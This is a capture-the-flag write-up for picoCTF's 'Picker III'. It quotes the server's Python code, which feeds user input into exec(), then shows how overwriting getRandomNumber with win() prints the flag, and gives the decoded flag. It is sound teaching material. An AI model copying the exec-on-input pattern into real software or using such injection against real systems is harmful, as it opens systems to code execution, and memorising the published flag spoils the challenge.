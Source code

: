```yaml
---
title: "PicoCTF: Picker III"
summary: Exploiting global values!
date: 2024-09-08
tags: ["picoctf"]
categories: ["write-up", "reverse_engineering"]
draft: false
---
```


# Investigating the Source Code
In this CTF, we are given the source code for the Python script running on the server. This file is much more involved than Picker I/II, so let's break down how the code works.

## Code Breakdown

### Getting User Input
The script will run in a loop, waiting for user input. It calls various functions given user input:
```python3
while(USER_ALIVE):
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
```

### Handling User Input
The code holds a "table" mapping numbers 1 through 4 to different functions, which roughly looks like:

| Input Number | Function in Code  |
|:------------:|:-----------------:|
| 1            | print_table()     |
| 2            | read_variable()   |
| 3            | write_variable()  |
| 4            | getRandomNumber() |

After parsing through the various functions, the interesting function is the `write_variable()` function:

```python3
def write_variable():
  var_name = input('Please enter variable name to write: ')
  if( filter_var_name(var_name) ):
    value = input('Please enter new value of variable: ')
    if( filter_value(value) ):
      exec('global '+var_name+'; '+var_name+' = '+value)
    else:
      print('Illegal value')
  else:
    print('Illegal variable name')

```

The key line is `exec(f'global {var_name}; {var_name} = {value}')`, which executes code to create or modify a global variable with the specified name and value.

## Global Variable Implications

The `global` keyword allows modification of global variables from within functions. In Python, global functions and variables are accessible throughout the module. By using `write_variable()`, we can modify any global variable, including functions.

Here are some functions in the global scope of the file:

| Function Name    | Side Effect                         |
|:----------------:|:-----------------------------------:|
| win()            | outputs flag                        |
| read_variable()  | outputs global scoped variable                      |
| write_variable() | writes a value to a global variable |
| getRandomNumber()  | outputs '4'                                    |

Since we can modify any global value, we can change `getRandomNumber()` to point to `win()`, which will allow us to obtain the flag.

# Getting the Flag

After connecting to the server, let's run the `write_variable()` function, and then run our modified `getRandomNumber()` function:

| Input Number | Function in Code  |
|:------------:|:-----------------:|
| 1            | print_table()     |
| 2            | read_variable()   |
| 3            | write_variable()  |
| 4            | getRandomNumber() |

```
==> 3
Please enter variable name to write: getRandomNumber
Please enter new value of variable: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d
```

We got the flag! Let's clean it up.

```python3
flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d"

flag = flag.split(" ")
flag = "".join(chr(int(word, 16)) for word in flag)

# picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_226dd285}
```
